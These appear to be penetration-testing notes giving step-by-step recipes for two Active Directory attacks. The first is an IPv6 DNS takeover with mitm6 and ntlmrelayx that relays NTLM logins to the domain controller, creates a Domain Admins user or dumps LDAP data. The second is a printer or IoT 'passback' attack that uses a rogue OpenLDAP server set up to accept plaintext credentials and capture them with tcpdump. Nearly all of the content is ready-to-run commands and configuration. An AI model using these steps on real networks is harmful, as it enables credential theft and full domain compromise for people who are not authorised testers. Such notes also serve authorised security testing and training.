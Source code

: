 **Tools**:
- [mitm6](https://github.com/dirkjanm/mitm6)
- `ntlmrelayx.py` - *impacket*

**Steps**:
1.  _mitm6_ setup: 
	- `sudo python3 mitm6.py -d <DOMAIN NAME>`
2. *ntlmrelayx.py* setup: 
	- `sudo python3 ntlmrelayx.py -6 -t ldaps://<IP DC> -wh fakewpad.<DOMAIN NAME> -l outputdir`
3. ..*waiting for users to restart the machine or network service*..
	- if privilege users, such as a member of the *Domain Admins* group, it is possible to create a new user, add him to the *Domain Admins* group and, in effect, compromise the entire domain
	- if not privileged, we can authenticate at the DC and dump the information at the database via LDAP or SMB
4. data dump at `outputdir`

## PassbackAttacks

Classic attack involving printers and IoT devices.

**Requirements**:
- be able to change settings regarding LDAP server, SMTP or network share

*Assume LDAP server* - **Steps**:
1. OpenLDAP installation:
	- `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
2. *slapd* setup:
	- `sudo dpkg-reconfigure -p low slapd`
	- *Omit OpenLDAP server configuration? No.*
	- *DNS domain name*: `<DOMAIN NAME>`
	- *Organization name*: `<DOMAIN NAME>`
	- *Administrator password:* any
	- *Database backend to use:* `MDB`
	- *Do you want the database to be removed when slapd is purged? No.*
	- creazione file `olcSaslSecProps.ldif`:
	```text
	#olcSaslSecProps.ldif
	dn: cn=config
	replace: olcSaslSecProps
	olcSaslSecProps: noanonymous,minssf=0,passcred
	```
	- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`
3. check the configuration of the *rogue* server:
	```shell
	$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
	dn:
	supportedSASLMechanisms: PLAIN
	supportedSASLMechanisms: LOGIN
	```
4. dump of the network traffic we receive on port 389, which is our LDAP server::
	- `sudo tcpdump -SX -i breachad tcp port 389`
5. we change the IP address of the LDAP server with which the IoT device was configured to our IP and wait or trigger an event that causes users to authenticate to our server
